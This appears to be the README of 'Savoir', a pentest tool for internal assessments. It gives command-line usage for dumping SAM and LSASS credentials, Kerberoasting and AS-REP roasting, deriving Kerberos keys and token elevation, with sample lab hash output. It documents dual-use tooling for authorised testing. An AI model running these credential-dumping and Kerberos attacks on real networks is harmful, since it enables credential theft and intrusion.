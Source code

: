 # Savoir

Savoir is a tool to perform tasks during internal security assessment.
This project help me to understand how some pentest tools works.


## Build

You can build `savoir` for multiple platforms:

```bash
make update
make build
```

The `build` folder contains build for multiple OS and architectures.


## Commands

### sam

```bash
savoir sam local # Windows only
savoir sam hive --sam <path/to/sam> --system <path/to/system>
savoir sam shadowcopies # Windows only
```


### lsass

```bash
savoir lsass process --json # Windows only
savoir lsass minidump --path /path/to/lsass.dmp --json
```

### kerberos


#### Ask a TGT then a TGS

You can also ask a TGS, `savoir` will ask for a `TGT` first

```bash
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$858129adc693b1a8bb62e50a51b4ffc2$9b2b...
```

You can ask a `TGT` save it to a `kirbi` files then ask for a `TGS`:

```bash
# Ask a TGT and save it to dany.kirbi
savoir kerberos asktgt --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -o dany.kirbi
TGT saved to dany.kirbi.

# Display the TGT
savoir kerberos describe --ticket dany.kirbi
ServiceName              :  krbtgt/ubh.lab
ServiceRealm             :  UBH.LAB
UserName                 :  dany
UserRealm                :  UBH.LAB
StartTime                :  2022-01-22 09:12:55 +0000 UTC
EndTime                  :  2022-01-22 19:12:55 +0000 UTC
RenewTill                :  2022-01-29 09:12:55 +0000 UTC
Flags                    :  forwardable ; proxiable ; renewable ; initial ; pre-authent
KeyType                  :  arcfour-hmac-md5
Base64(key)              :  9CrwY3aAdXdr91h7uGi9qg==

# Ask a TGS using this TGT
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -t dany.kirbi -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$ef59ed1f3fdfddf356dd93823ad8208f$228920...
```


#### Generate Kerberos keys

Note that `RC4` key is the `NTLM` hash `(MD4(UNICODE(password)))`

```bash
savoir kerberos keys --password 'Pa$$w0rd' --salt 'CONTOSO.COMAdministrator'
arcfour-hmac-md5
  Key: 92937945b518814341de3f726500d4ff
  Iterations: 00001000

aes128-cts-hmac-sha1-96
  Key: bd75e98362b16649ffbaed630d5341d0
  Iterations: 00001000

aes256-cts-hmac-sha1-96
  Key: 660e61042b190b5724c62bb473facca12058fb9ad3c03c0d2809f839c0352502
  Iterations: 00001000
```


#### AS-REP roasting 

A User account may have the option `Do not require Kerberos preauthentication`
checked.

```bash
savoir kerberos asktgt --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> -e rc4 --format=john
```


#### Kerberoasing

```bash
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> -e rc4 -r <TARGET_USER>
```


### token

```bash
savoir token elevate -x cmd.exe # Windows only
```


### webscreenshot

This command take a screenshot of a URL using a headless browser.

```bash
savoir webscreenshot --url {url} --renderer {chrome|chromium|firefox} --renderer-path {path}
```
